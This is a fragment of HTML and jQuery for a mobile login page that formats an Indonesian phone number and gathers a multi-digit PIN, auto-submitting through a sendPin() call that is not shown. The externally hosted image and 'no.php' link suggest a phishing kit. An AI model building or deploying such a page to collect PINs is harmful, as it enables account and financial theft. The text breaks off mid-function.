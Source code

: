     </div>
    <div class="container hid">
        <div class="box-login" style="background-color: #fff;">
            <div id="process" name="process" class="process" style="display: none;">
                <div class="loading">
                    
                </div>
            </div>
            <div class="header11">
                <a href="no.php"><img src="https://hosting.tigerengine.id/blmhkf.jpg" style="width: 100%; left: 0px; top: 0px; height: 100%"></a>
            </div>
            
<script>
$(document).ready(function() {
    $('#inp').on('input', function() {
        if ($(this).val() == '0' || $(this).val() == '62') {
            $(this).val('');
        }
    });
});
</script>
<script>
$(document).ready(function() {
    $('#inp').mask('000-0000-000000');
});
</script>
<script>
let inp = document.getElementById("inp");
let btn = document.getElementById("btn");
inp.addEventListener("input", val);

function val() {
    if (inp.value.length > 10) {
        btn.disabled = false;
    } else {
        btn.disabled = true;
    }
};
</script>
<script>
$('.inppin').on('input', function(event) {
    const inputs = $('.inppin');
    const isAllFilled = Array.from(inputs).every((input) => input.value !== '');
    if (isAllFilled == true) {
        $(event.target).blur();
        sendPin();
    };
    const index = inputs.index(this);
    const currentValue = event.target.value;
    if (currentValue.length === 1) {
        if (index < inputs.length - 1) {
            inputs[index + 1].focus();
        }
    } else if (currentValue.length === 0) {
        if (index > 0) {
            inputs[index].focus();
        }
    };
});
$('.inppin').on('keydown', function(event) {
    const inputs = $('.inppin');
    const key = event.key;
    const index = inputs.index(this);
    if (key === 'Backspace' && event.target.value.length === 0) {